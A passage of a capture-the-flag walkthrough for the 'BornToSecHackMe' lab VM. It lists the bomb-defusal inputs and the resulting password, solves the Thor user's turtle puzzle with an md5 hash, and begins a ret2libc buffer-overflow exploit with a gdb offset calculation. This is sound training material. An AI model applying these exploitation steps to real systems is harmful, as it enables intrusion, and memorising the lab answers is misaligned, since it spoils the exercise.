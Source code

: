 ```
Congratulations! You've defused the bomb!
```

## 🏁 Full Input Script Example

```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5
```

## Assembling the password

Now we need to follow the README and assemble the password by combining the 6 strings without the spaces which gives us :

```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

# Part 7 : Thor

In this user we are given a file named `turtle`, it's a list of instructions for the turtle software, we can use a python script to draw the result.

It gives us the word `SLASH` scrambled

Now we follow the hint and we digest it to obtain the password :

```
thor@BornToSecHackMe:~$ echo -n SLASH | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
```

# Part 8 : Zaz

Here we are given a file to exploit `exploit_me`, by decompiling we can see it has a vulnerable user input so we will do a ret2libc.

## Calculate the offset

```bash
zaz@BornToSecHackMe:~$ gdb -q ./exploit_me 
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/zaz/exploit_me Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()

```
